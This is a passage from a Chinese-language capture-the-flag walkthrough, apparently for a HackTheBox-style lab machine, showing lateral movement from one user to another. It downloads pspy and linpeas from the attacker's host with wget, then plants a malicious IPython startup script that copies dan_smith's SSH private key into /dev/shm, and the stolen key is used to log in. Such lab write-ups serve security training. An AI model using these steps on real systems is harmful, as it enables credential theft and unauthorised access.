 登录成功，但是没有user.txt文件，而且还有第二个用户，看来我们要想办法登录另一个用户

查询developer组的suid权限文件
```
find / -group developer 2>/dev/null
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/11df90639aaa40e6b0db4bdaf2e91896.png)

找到一个文件，但是里面什么都没有

现在我们上传linpeas和pspy文件来搜集机子信息
```
https://github.com/DominicBreuker/pspy/releases/tag/v1.2.0
https://github.com/carlospolop/PEASS-ng
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/858ded9e13ca4c59ae5bffa38bce4d1e.png)

开启apache服务，然后在靶机上下载文件

```
service apache2 start
wget http://10.10.14.8/pspy64
wget http://10.10.14.8/linpeas.sh
```
然后给这两个脚本执行的权限
```
chmod +x pspy64
chmod +x linpeas.sh
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/67c3f99e289b46b39502725dfc7027fd.png)

然后执行脚本，在运行pspy脚本监听linux进程时，发现了一个奇怪的程序

![在这里插入图片描述](https://img-blog.csdnimg.cn/708cf53fa2af4413bcf5eeaa69a6e164.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/959dac78d6e043618a50a6ff479f018a.png)

dan_smith用户正在后台运行ipython程序，然后google看看ipython有没有相关的漏洞，然后发现了这篇文章
```
https://github.com/ipython/ipython/security/advisories/GHSA-pq7m-3gw7-gq5x
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/e6fe943571a64fbe8a31082142c272b5.png)

这个漏洞允许一个用户以另一个用户身份运行代码，我们可以执行cat命令，查看dan_smith用户的ssh密钥，之后ssh登录就好了

去到之前找到的的suid权限的目录，然后执行上面的命令
```
mkdir -m 777 profile_default
mkdir -m 777 profile_default/startup
echo "import os; os.system('cat ~/.ssh/id_rsa > /dev/shm/key')" > profile_default/startup/foo.py
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/53c21538f8b24b0490a4747d76d4fb8e.png)

成功得到dan_smith用户的密钥，在kali上创建一个名为id_rsa的文件，设置权限为600，将密钥复制进去

然后ssh登录
```
ssh -i id_rsa dan_smith@10.10.11.172
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/5da6d9c1f278412b81f3b2f6f8eb5b26.png)
